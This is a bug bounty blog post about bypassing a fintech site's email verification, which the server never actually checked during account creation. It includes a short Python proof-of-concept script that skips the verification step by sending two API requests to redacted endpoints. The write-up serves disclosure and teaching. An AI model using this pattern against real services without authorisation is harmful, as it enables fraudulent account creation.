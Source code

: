 ```yaml
---
title: Bypassing a non existing email verification flow
date: 2022-05-15 16:00:00 +05:30
modified: 2022-05-15 16:00:00 +05:30
tags:
image: /carbon.png 
description: A blog post about how I bypassed a non existing email verification flow in a website.
---
```


Today I will be sharing my recent finding of an email verification bypass which allowed me to bypass “a non-existing e-mail verification flow”. I hope this will be a good read for you!

In April 2021, I was searching for a new bug bounty program, I usually do that by using google dorks, and similarly, I found one more this time. Let’s say the company is redacted.com to protect privacy.

Let’s learn more about redaced.com before learning about my finding. It is a fintech company which allows users to create accounts to access money across the globe. These accounts require verification, including verifying users' email addresses

Let’s Start “Hacking”!

<p>I started by creating an account on the target and using the website for some time to get a rough overview of the target. And after that, I selected to try bypassing the email verification process.</p>
<h2 id="this-is-how-the-targets-verification-process-worked">This is how the target’s verification process worked:</h2>
<ol>
<li>You visit <a href="http://redacted.com/signup">redacted.com/signup</a> and enter your email address</li>
<li>You receive an email with a verification URL</li>
<li>You click and open the URL and then you are redirected to the password setup page</li>
<li>You create a new password and provide other details and hit save</li>
<li>Your email gets verified and the account gets created</li>
</ol>
<p><strong>The verification URL looked like this:</strong><br>
<a href="https://www.redacted.com/app1/signup/verify?key=16641558218877162399&amp;email=example2%2540example.com">https://www.redacted.com/app1/signup/verify?key=16641558218877162399&amp;email=example2%40example.com</a></p>
<p>After looking at the URL, I thought of using some common bypasses like changing the email address in the URL or using random keys. And guess what? None of them worked!</p>
<h2 id="what’s-next-let’s-see-what’s-happening-at-the-backend.">What’s next? Let’s see what’s happening at the backend.</h2>
<p>The below two requests were made for the account creation and verification flow:</p>

- When signing-up:
<img src="https://raw.githubusercontent.com/SiddharthBharadwaj/siddharthbharadwaj.github.io/master/_posts/carbon.png" alt="">

- When setting up password after visiting the verification link:
<img src="https://raw.githubusercontent.com/SiddharthBharadwaj/siddharthbharadwaj.github.io/master/_posts/carbon1.png" alt="">

<p><strong>Observed anything odd in the second request ?</strong></p>
<p><strong>This is what I observed:</strong><br>
Even though the request was made after opening the verification link, there was no verification token in the request. This means that technically there is no email verification happening in the backend.</p>
<p><em>What if I make the second request with my email address directly after the first one without opening the verification URL?</em><br>
<strong>Yes, this worked!</strong> And I successfully created an account on <a href="http://redacted.com">redacted.com</a> without really verifying the email.</p>
<p>The next step was to report the vulnerability. So, I quickly wrote the below python exploit to make the reproduction part easy for the team and reported the vulnerability:</p>
<pre class=" language-python"><code class="prism  language-python"><span class="token keyword">import</span> requests

<span class="token keyword">class</span> <span class="token class-name">bcolors</span><span class="token punctuation">:</span>
    OKGREEN <span class="token operator">=</span> <span class="token string">'\033[92m'</span>
    ENDC <span class="token operator">=</span> <span class="token string">'\033[0m'</span>

url1 <span class="token operator">=</span> <span class="token string">"https://www.redacted.com/api/user"</span>
url2 <span class="token operator">=</span> <span class="token string">"https://www.redacted.com/api/user/account"</span>

headers <span class="token operator">=</span> <span class="token punctuation">{</span>
    <span class="token string">'Host'</span><span class="token punctuation">:</span> <span class="token string">'www.redacted.com'</span><span class="token punctuation">,</span>
    <span class="token string">'Content-type'</span><span class="token punctuation">:</span> <span class="token string">'application/json'</span><span class="token punctuation">,</span>
<span class="token punctuation">}</span>

email <span class="token operator">=</span> <span class="token builtin">raw_input</span><span class="token punctuation">(</span><span class="token string">"Enter email: "</span><span class="token punctuation">)</span>
phone <span class="token operator">=</span> <span class="token builtin">raw_input</span><span class="token punctuation">(</span><span class="token string">"Enter phone number: "</span><span class="token punctuation">)</span>

data1 <span class="token operator">=</span> <span class="token punctuation">{</span><span class="token string">"data"</span><span class="token punctuation">:</span><span class="token punctuation">{</span><span class="token string">"email"</span><span class="token punctuation">:</span>email<span class="token punctuation">,</span><span class="token string">"phoneNumber"</span><span class="token punctuation">:</span>phone<span class="token punctuation">}</span><span class="token punctuation">}</span>
data2 <span class="token operator">=</span> <span class="token punctuation">{</span><span class="token string">"password"</span><span class="token punctuation">:</span><span class="token string">"P@ssw0rd"</span><span class="token punctuation">,</span><span class="token string">"phoneNumber"</span><span class="token punctuation">:</span>phone<span class="token punctuation">,</span><span class="token string">"email"</span><span class="token punctuation">:</span>email<span class="token punctuation">}</span>

<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">" "</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Creating account with email: "</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC <span class="token operator">+</span>email<span class="token punctuation">)</span>
r1 <span class="token operator">=</span> requests<span class="token punctuation">.</span>post<span class="token punctuation">(</span>url <span class="token operator">=</span> url1<span class="token punctuation">,</span> headers <span class="token operator">=</span> headers<span class="token punctuation">,</span> json <span class="token operator">=</span> data1<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Account Created!"</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Bypassing email verificaion &amp; setting password"</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC<span class="token punctuation">)</span>
r2 <span class="token operator">=</span> requests<span class="token punctuation">.</span>post<span class="token punctuation">(</span>url <span class="token operator">=</span> url2<span class="token punctuation">,</span> headers <span class="token operator">=</span> headers<span class="token punctuation">,</span> json <span class="token operator">=</span> data2<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Completed!"</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">" "</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">"Account details:"</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Email: "</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC <span class="token operator">+</span>email<span class="token operator">+</span> bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">" Password: "</span><span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC <span class="token operator">+</span><span class="token string">"P@ssw0rd"</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">" "</span><span class="token punctuation">)</span>

</code></pre>

After reporting, I got a response the next day confirming the existence of the vulnerability. And it was fixed on the second day and Bounty was awarded a day after that.

##### Takeaways
- Always use the application as a normal user before testing it for security misconfigurations
- Never skip basic bypasses/techniques as they might do the work
- Observe every request carefully
